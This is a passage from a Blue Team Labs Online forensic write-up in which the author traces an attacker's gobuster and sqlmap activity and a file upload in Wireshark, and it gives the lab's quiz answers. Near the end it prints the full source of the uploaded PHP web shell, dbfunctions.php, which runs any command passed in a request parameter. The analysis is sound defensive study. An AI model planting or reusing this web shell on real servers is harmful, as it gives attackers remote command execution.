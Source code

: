 ![[BTLO-Network-Analysis-Web-Shell-Wireshark-TCP-Stream-sqlmap-user-agent.png]]

**Answer Tool #2: `sqlmap 1.4.7`**

#### Additional Notes
The above was demonstrated just with *Conversations* and the main page for the most part to show what the patterns and traffic would look like. Other statistical tools in Wireshark can be much better suited for locating or identifying anomalous traffic such as *I/O Graph* showing packets/1sec for All Packets and specifically set filters (like `ip.addr==10.251.96.4 && tcp.port==80`). The largest red spike is the enumeration by `gobuster` and the spike further to the right is `sqlmap`.

![[BTLO-Network-Analysis-Web-Shell-Wireshark-IO-Graph.png]]


### `What is the name of the php file through which the attacker uploaded a web shell?`
Seeing as we're searching for a *php* file through which the attacker *uploaded* a web shell, pretty good chance we're looking for a `POST` request, a *php* file on the target host that the attacker leveraged.

To start, filter the main Wireshark display for only the attacker's IP, the web servers port, and `POST` method
- `ip.addr==10.251.96.4 && tcp.port==80 && http.request.method==POST`

Once filtered, you can search all the packets returned for a *php* string to quickly find the endpoint used. This can be done with **Ctrl+F** or **Edit -> Find Packet**. Ensure that you have it set to *String* or *Regular Expression* and not the default *Display Filter* 

![[BTLO-Network-Analysis-Web-Shell-Wireshark-php-upload-endpoint.png]]

Clicking *Find* or **Ctrl+n** will cycle through the matches for your query within the filtered packets. There should be only two, `/upload.php` and `/login.php`. Since we know the attacker uploaded a web shell, starting with `/upload.php` make sense. Opening the details and expanding the data for the *Hypertext Transfer Protocol Section* reveals that the `/upload.php` was called by the `/editprofile.php`, the file our attacker leveraged to upload their payload. 

![[BTLO-Network-Analysis-Web-Shell-Wireshark-exploited-php-file.png]]

**Answer: `editprofile.php`**


### `What is the name of the web shell that the attacker uploaded?`
Now that we know where the upload occurred we can more easily start to investigate the how and what.

Right clicking on the packet from the previous question, and clicking *Follow -> HTTP Stream* will open a window of the Conversation associated with the payload upload. 

From this we learn the name of the file `dbfunctions.php` and its contents:
```php
<?php
if(isset($\_REQUEST\['cmd'\]) ){
echo "<pre>";
$cmd = ($\_REQUEST\['cmd'\]);
system($cmd);
echo "</pre>";
die;
}
?>
```

